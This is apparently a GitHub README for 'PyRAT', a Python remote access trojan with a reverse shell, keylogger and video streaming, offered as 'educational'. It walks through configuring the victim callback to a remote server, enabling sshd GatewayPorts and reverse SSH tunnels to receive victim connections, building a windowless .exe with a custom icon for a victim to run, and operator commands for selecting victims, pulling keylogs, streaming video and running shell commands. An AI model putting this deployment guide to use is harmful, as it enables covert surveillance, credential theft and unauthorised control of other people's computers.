

# PyRAT

## Simple Trojan written in python for educational purposes


---

## About

I wrote a simple RAT with reverse shell, video streaming and keylogger features. A server with a white ip is needed to communicate with the victim.

---

## Usage

### Configurations

```python
# cfg.py
local_ip = '127.0.0.1' # Localhost
local_port = 4444 # Local port for connections
local_data_port = 5555 # Local port for data transmission
```

```python
# victim_cfg.py
srv_ip = '<remote_server_ip>' # Remote server ip
srv_port = 4444 # Remote port for connections
srv_data_port = 5555 # Remote port for data transmission
```

### Remote server

To catch the victim's connection from anywhere, 
we need ssh access to the server with a white IP.
All we need to change is the ssh daemon config.
This config is located in the `/etc/ssh/sshd_config` directory. 
We only need to uncomment `GatewayPorts` line, and set the value to `yes`.
Next, restart the `ssh`.

```shell
sudo nano /etc/ssh/sshd_config # Change GatewayPorts to yes
sudo systemctl restart ssh # Restart ssh daemon
```


### Port forwarding via ssh

To make a port forwarding, we execute this command. 
We are specify the port of the remote server ( in my case it is `44444` ),
then write `:127.0.0.1:4444`, this is the local port on which we will wait for connections.
Everything that comes to port `44444` the remote server will be transmitted to the attacker's local port.
We do the same for the data transfer port `55555`.

```shell
ssh -vN -R 44444:127.0.0.1:4444 -R 55555:127.0.0.1:5555 <user>@<server_ip> -i <ssh_private_key>
```

### Build
Let's build `.exe` file for our victim using Nuitka.
In order to catch the connection, the victim must run this file on his machine.

```shell
python -m nuitka --standalone --onefile --windows-console-mode=disable --windows-icon-from-ico=<icon.ico> --output-filename=<filename.exe> .\victim_startup.py
```

### Usage

To run the local server use `python PyRAT.py` command.
After connecting the first victim, we can use the `victims` command to check all available victims.
For connect to specific victim, use `use <index>` command.
The `info <index>` function is also available.
After connecting to the victim, we can execute the `log` or `stream` commands
to transfer a log file or broadcast a video.
Otherwise, the commands that you have written will be executed by victim shell.